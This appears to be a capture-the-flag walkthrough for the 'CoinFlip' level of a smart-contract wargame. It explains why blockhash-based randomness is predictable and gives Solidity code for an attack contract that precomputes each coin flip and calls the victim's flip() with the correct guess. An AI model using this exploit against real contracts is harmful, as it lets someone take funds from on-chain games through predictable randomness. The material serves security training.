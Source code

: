 # 3. CoinFlip
*Please see contracts/3_CoinFlip.sol & contracts/3_CoinFlipAttack.sol*

Open up the developer console.
Open up Remix and deploy the CoinFlip contract at the address specified in the developer console.

___
## 1. Initial Considerations & Methodology

The idea in this level is to correctly guess the correct result of the coin flipping game 10 times in a row.  
We need to pass in the correct guess to ```flip()``` , so therefore we need to already know what the result of the coin toss will be before actually calling ```flip()``.  

This requires us to use Remix as we will need to create a new contract that will be used to attack the CoinFlip contract.  

___
## 2. How To Complete

1. Understand how the "randomness" of the coin toss is generated.
2. Recreate this call using a function in the attack contract. 
3. In the same function as the above call ```flip()``` and pass in the value that has already been calculated.

___
### 1. Understand how the "randomness" of the coin toss is generated

This contract does not have authentic randomness and therefore we can attack this part and replicate it.  
```
uint256 blockValue = uint256(blockhash(block.number.sub(1)));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue.div(FACTOR);
        bool side = coinFlip == 1 ? true : false;
```
The above is the part of the ```flip()``` function that calculates the coin flip outcome. 

This line of the code gets the last blockhash. The reason we are getting the hash of the last block and not the lastest (as can be seen in ```block.number.sub(1)``` ) is that the current blockhash is not known until the block has been mined.
```
uint256 blockValue = uint256(blockhash(block.number.sub(1)));
```

This block of code checks to see if the new blockhash is the same as lastHash. This stops the function being called mutliple times in the same block. 
```
if (lastHash == blockValue) {
            revert();
        }
```
This assigns the blockhash to ```lastHash``` so that it can be used to check for multiple calls in the same block.
```
lastHash = blockValue;
```

This line divides the blockhash by a hardcoded ```FACTOR```.
```
// HARDCODED FACTOR 
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

uint256 coinFlip = blockValue.div(FACTOR);
```

The last line of this code block checks to see the result of ```coinFlip``` and whether the result is equal to 1 or not. 
```
bool side = coinFlip == 1 ? true : false;
```

**Now we understand how the outcome is calculated, we can exploit the contract**
___
### 2. Recreate this call using a function in the attack contract
Create a new contract that imports the delopyed CoinFlip.sol contract.  
Copy over the same ```FACTOR``` variable.
Pass in the address of the CoinFlip contract into the constructor.
```
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "./3_CoinFlip.sol";

contract CoinFlipAttack {
    CoinFlip public victimContract;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victimContractAddr) {
        victimContract = CoinFlip(_victimContractAddr);
    }
}
```

Now we can create a function in out attack contract to replicate the flip outcome.
```
function flip() public returns (bool) {
  uint256 blockValue = uint256(blockhash(block.number - 1));
  uint256 coinFlip = uint256(blockValue / FACTOR);
  bool side = coinFlip == 1 ? true : false;

}
```
___
### 3. Call ```flip()``` and pass in the value that has already been calculated  
Add the following to the function to then call CoinFlip.sol ```flip()``` and pass in the pre-calculated outcome.
```
victimContract.flip(side);
```
Then call CoinFlipAttack ```flip()``` 10 times.

**YOU CAN NOW SUBMIT THE ANSWER AND HAVE NOW COMPLETED THIS LEVEL**
